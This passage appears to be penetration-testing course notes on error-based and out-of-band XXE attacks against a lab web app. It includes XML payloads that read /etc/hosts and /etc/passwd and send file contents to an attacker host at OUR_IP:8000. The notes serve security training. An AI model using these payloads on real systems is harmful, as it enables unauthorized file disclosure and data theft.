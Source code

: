 > [!NOTE]
> In some modern web server, we may not be able to read some files, as the web server would be preventing a DOS attack cause by file/entity self-refernece

This trick can become vey handly when tha basic XXE method does not work or when dealing with other web development framework.

- ERROR BASED XXE:
Anotehre situation we may find ourselves in is one where the web app might not write any output, so we cannot control any of the XML input enitites to write its content. We would be blind to the XML output and os would
not be able to retrive the file content usin our usual method.
If the web app desplays runtime error and does not have proper exception handling for the XML Input, then we can use this flaw to read to output of the XXE exploit.
Let's consider the exercise we have in /error at the end of this section, in which none of the XML input entities is displayed ont the screen. We have no entity that we can control to write the file output.
Send malformed XML data, and see if the web app displays any error.
We can delete any of the closing tags, change one of them, so it does not close [<roo> instead of <root>] or just reference a non-existing enitty.
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the file parameter entity and then joins it with an enitity that does not exists. We were joining three strings, %nonExistingEntity; does not exists.
We can call our external DTD script, and the reference the error entity;
```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data we will get the content of the /etc/hosts file as follow:
This method may also be used to read the source code of file, DTD script to point to the file we want to read "file:///var/www/html/submitDetails.php"). However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.

### Blind Data Exfiltration:
As thej web server was displaying PHP runtime error, we could use this flaw to read the content of files form the displayed errors.

- Out-of-band Data Exfiltration:
If we try to repeat any of the methods with teh exercise we find at /blind, we'll quicklu notice that none of them seem to work, as we have no wat to have anything printed on the web response. We cna utilize a method known as OOB data exfiltration, which is often used in similar blind cases with many web attacks. like blind SQL Injections, blind
command injection. blind XXS, similar attacks and here we utilize a similar attack wth slight modifications to fit our XXE vulnerabilities.
IN our previous attacks, we utilize an out-of-band since we hosted the DTD file in or machine and made the web app connect to us. Our attack this time will be pretty similar, with one significant difference. Instead of having a web app output orui file enitity to specific XML entity, we will make web app send a web request to our web server with the conent
of the file we are reading.
We will create another exeternal parameter enitity and reference it to our IP, and place the file parameter value as part fo the URL begin requested over HTTP:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```